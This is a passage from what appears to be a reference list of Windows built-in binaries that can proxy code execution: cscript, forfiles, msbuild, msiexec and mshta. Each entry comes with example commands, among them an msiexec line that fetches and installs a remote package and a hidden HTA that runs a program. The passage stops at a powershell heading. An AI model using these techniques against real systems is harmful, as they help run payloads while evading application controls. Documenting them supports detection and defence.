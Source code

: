 ##### cscript.exe/wscript.exe

-   Description: Windows script engines that support both VBS and JScript
    execution. CScript is the console version, WScript is the Window version.
    Neither version supports scripts being supplied on the command line, instead
    a file must be created containing the script or a funky bat file wrapper.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: *cscript.exe test.vbs (where test.vbs contains WScript.Echo "test")*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### forfiles.exe

-   Description: Forfiles supports the ability to execute commands and seems to
    be equivalent to cmd.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: *forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### msbuild.exe

-   Description - Microsoft's build utility where you can supply an inline build
    task to execute code
    (<https://msdn.microsoft.com/en-us/library/dd722601.aspx>)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: *C:\Windows\Microsoft.NET\Framework\v2.0.50727\msbuild.exe \server\payload*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### msiexec.exe

-   Description - The Windows installer typically used to install new software
    or patches. It be used to download and execute a remote payload.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: *msiexec /i [http://server/package.msi](http://server/package.msi)*
  Example: *msiexec /y payload.dll*
  Example: *msiexec /z payload.dll*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### mshta.exe

-   Description: MSHTA can be used to execute HTA files (containing scripts) or
    directly execute VBScript/JScript from the command line.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: *mshta bad.hta*
  Example: *mshta vbscript:Execute("MsgBox(""amessage"",64,""atitle"")(window.close)")*
  Example: *mshta javascript:alert('test');*
  Example HTA: *<html><HTA:APPLICATION icon="#" WINDOWSTATE="minimize" SHOWINTASKBAR="no" SYSMENU="no" CAPTION="no" script language="VBScript"  Set objShell = CreateObject("Wscript.Shell")  objShell.Run "calc.exe"  Close  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1.  script

##### powershell.exe
